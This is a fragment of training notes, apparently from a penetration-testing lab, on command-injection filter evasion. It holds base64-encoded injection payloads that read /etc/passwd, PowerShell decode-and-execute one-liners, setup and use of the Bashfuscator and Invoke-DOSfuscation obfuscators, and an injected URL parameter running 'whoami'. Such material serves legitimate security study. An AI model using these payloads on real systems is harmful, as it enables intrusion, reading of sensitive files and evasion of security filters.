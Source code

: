 ```url
%0abash<<<$(base64%09-d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
**Windows**
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

```powershell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
## Examples
```shell
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
```

```url
%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```
# Evasion Tools
## Linux (Bashfuscator)
```git
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
pip3 install setuptools==65
python3 setup.py install --user
```
## Windows (DOSfuscation)
```powershell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
help
```

```powershell
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1
```

```cmd
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```
## Examples
```
/index.php?to=tmp&from=whoami%262470930823.txt&finish=1&move=1
```